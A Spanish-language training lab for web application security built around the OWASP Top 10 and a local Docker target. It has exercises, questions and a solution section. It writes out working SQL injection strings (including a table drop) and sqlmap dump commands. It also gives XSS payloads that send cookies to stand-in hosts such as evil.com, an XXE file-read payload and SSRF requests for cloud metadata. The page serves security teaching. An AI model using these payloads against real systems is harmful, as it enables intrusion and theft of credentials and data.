


::: tip 🧪 Lab Interactivo Disponible
**¿Quieres practicar esto en tu navegador?** Tenemos una versión interactiva con terminal simulada, comandos reales y tracking de progreso.

👉 [**Abrir Lab Interactivo — Sin Docker**](/CyberDefense-Pro-Network/labs-interactive/lab-web-01.html)
:::

# 🌐 Lab web-01: Web Application Security (OWASP Top 10)

> Identifica y explota vulnerabilidades web comunes siguiendo el OWASP Top 10.

## 📊 Diagrama del Escenario



## 🎯 Objetivos OWASP Top 10

- [ ] **A01**: Forzar navegación directa a archivos protegidos
- [ ] **A02**: Identificar datos transmitidos en texto plano
- [ ] **A03**: Ejecutar SQL Injection
- [ ] **A04**: Explotar XXE (XML External Entity)
- [ ] **A05**: Acceder a archivos de configuración expuestos
- [ ] **A07**: Reflejar y almacenar XSS
- [ ] **A08**: Deserializar objetos maliciosos
- [ ] **A10**: Fuerza bruta contra login

## ⏱️ Información del Lab

| Campo | Valor |
|-------|-------|
| **Dificultad** | 🟡 Intermedio |
| **Tiempo estimado** | 90 minutos |
| **XP en juego** | 400 puntos |
| **Herramientas** | Burp Suite, sqlmap, nikto, curl |
| **Flags** | 8 (una por vulnerabilidad) |

## 🚀 Inicio Rápido

```bash
# Levantar el entorno vulnerable
cd labs/intermedio/web-01
docker compose up -d

# Verificar servicios
docker compose ps

# Abrir aplicación vulnerable
# http://localhost:8080
```

## 📋 Vulnerabilidades OWASP Top 10

### Vulnerabilidad 1: A01 - Broken Access Control (50 XP)

**Objetivo:** Acceder a panel de admin sin autenticación

```bash
# Intentar acceder directamente
curl http://localhost:8080/admin
curl http://localhost:8080/admin/dashboard
curl http://localhost:8080/api/admin/users
```

**Pregunta:** ¿Qué archivos/directorios sensibles encontraste?
- `[___]`

**Flag:** `[___]`

---

### Vulnerabilidad 2: A02 - Cryptographic Failures (50 XP)

**Objetivo:** Identificar datos sensibles en texto plano

```bash
# Capturar tráfico
tcpdump -i eth0 -w capture.pcap

# Analizar con tshark
tshark -r capture.pcap -Y "http" -T fields -e http.authorization
```

**Preguntas:**

1. ¿Se transmiten credenciales en texto plano? `[Sí/No]`
2. ¿Qué datos sensibles encontraste? `[___]`
3. ¿Qué protocolo debería usarse? `[___]`

**Flag:** `[___]`

---

### Vulnerabilidad 3: A03 - SQL Injection (50 XP)

**Objetivo:** Extraer datos de la base de datos

```sql
-- SQL Injection en campo de búsqueda
' OR '1'='1
' UNION SELECT username, password FROM users--
'; DROP TABLE users;--
```

```bash
# Usar sqlmap automáticamente
sqlmap -u "http://localhost:8080/search?id=1" --dbs --batch
sqlmap -u "http://localhost:8080/search?id=1" -D vulnerable_db -T users --dump
```

**Preguntas:**

1. ¿Cuántas bases de datos encontraste? `[___]`
2. ¿Cuántos usuarios hay en la tabla users? `[___]`
3. ¿Cuál es la contraseña del admin? `[___]`

**Flag:** `[___]`

---

### Vulnerabilidad 4: A05 - Security Misconfiguration (50 XP)

**Objetivo:** Encontrar archivos de configuración expuestos

```bash
# Buscar archivos sensibles
curl http://localhost:8080/.env
curl http://localhost:8080/config.php
curl http://localhost:8080/wp-config.php
curl http://localhost:8080/.git/config
curl http://localhost:8080/server-status
curl http://localhost:8080/phpinfo.php
```

**Archivos encontrados:**

| Archivo | Contenido Sensible |
|---------|---------------------|
| `.env` | `[___]` |
| `config.php` | `[___]` |
| `.git/config` | `[___]` |

**Flag:** `[___]`

---

### Vulnerabilidad 5: A07 - Cross-Site Scripting (XSS) (50 XP)

**Objetivo:** Ejecutar JavaScript en el navegador de la víctima

```html
<!-- Reflected XSS -->
<script>alert('XSS')</script>

<svg onload=alert('XSS')>

<!-- Stored XSS en campo de comentario -->
<script>
  fetch('http://ATTACKER_IP/steal?cookie='+document.cookie)
</script>

<!-- DOM-based XSS -->
<input type="text" value="">
<script>alert(document.getElementById('input').value)</script>
```

**Pruebas:**

| Tipo | Payload | ¿Funcionó? |
|------|---------|------------|
| Reflected | `[___]` | `[Sí/No]` |
| Stored | `[___]` | `[Sí/No]` |
| DOM | `[___]` | `[Sí/No]` |

**Flag:** `[___]`

---

### Vulnerabilidad 6: A08 - Insecure Deserialization (50 XP)

**Objetivo:** Deserializar objeto malicioso

```bash
# Capturar cookie de sesión
curl -v http://localhost:8080/login -d "user=admin&pass=admin123"

# La cookie parece ser un objeto serializado
# Ejemplo: Tzo0OiJVc2VyIjoxOntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjg6InJvbGVfam9iIjtzOjEwOiJndWVzdF91c2VyIn0=
```

```php
// Decodificar y modificar
// Original: Guest User
// Modificado: Admin User
```

**Preguntas:**

1. ¿Qué formato de serialización usa? `[___]`
2. ¿Qué campos contiene el objeto? `[___]`
3. ¿Qué modificaste para escalar privilegios? `[___]`

**Flag:** `[___]`

---

### Vulnerabilidad 7: A10 - Server-Side Request Forgery (SSRF) (50 XP)

**Objetivo:** Acceder a servicios internos

```bash
# SSRF para acceder a metadata cloud
curl "http://localhost:8080/fetch?url=http://169.254.169.254/latest/meta-data/"

# SSRF para port scanning interno
curl "http://localhost:8080/fetch?url=http://127.0.0.1:3306"
curl "http://localhost:8080/fetch?url=http://127.0.0.1:6379"
```

**Preguntas:**

1. ¿Qué servicios internos encontraste? `[___]`
2. ¿Pudiste acceder a metadatos? `[Sí/No]`
3. ¿Qué información obtuviste? `[___]`

**Flag:** `[___]`

## 🔍 Flujo de Explotación



## 🏁 Validación

```bash
# Ejecutar validación completa
./scripts/validate.sh

# Verificar cada vulnerabilidad
./scripts/check-vuln.sh A01
./scripts/check-vuln.sh A03
./scripts/check-vuln.sh A07
```

## 📝 Criterios de Éxito

| OWASP | Vulnerabilidad | Puntos | Estado |
|-------|----------------|--------|--------|
| A01 | Broken Access Control | 50 | ⬜ |
| A02 | Cryptographic Failures | 50 | ⬜ |
| A03 | SQL Injection | 50 | ⬜ |
| A05 | Security Misconfiguration | 50 | ⬜ |
| A07 | Cross-Site Scripting | 50 | ⬜ |
| A08 | Insecure Deserialization | 50 | ⬜ |
| A10 | SSRF | 50 | ⬜ |
| Bonus | Documentación completa | 50 | ⬜ |
| **Total** | | **400** | ⬜ |

## 🎓 Payloads de Referencia

### SQL Injection
```sql
' OR '1'='1' --
' UNION SELECT null,table_name FROM information_schema.tables--
' UNION SELECT null,column_name FROM information_schema.columns WHERE table_name='users'--
```

### XSS
```javascript
<script>alert('XSS')</script>
<script>fetch('http://evil.com/steal?c='+document.cookie)</script>

```

### XXE
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

## 🚨 Solución (Solo después de intentar)

<details>
<summary>🔓 Click para ver la solución completa</summary>

### A01 - Broken Access Control
```
curl http://localhost:8080/admin
# Redirección a login, pero...
curl http://localhost:8080/admin/dashboard
# Acceso directo al panel
```

### A03 - SQL Injection
```
' UNION SELECT username, password FROM users--
# Usuarios extraídos: admin:admin123, user1:user123
```

### A05 - Security Misconfiguration
```
curl http://localhost:8080/.env
# DB_PASSWORD=insecure123
# AWS_KEY=AKIA...
```

### A07 - XSS
```html
<script>document.location='http://evil.com/steal?c='+document.cookie</script>
# Cookie de admin capturada
```

</details>

---

*Lab creado para CyberDefense Labs — Nivel Intermedio*
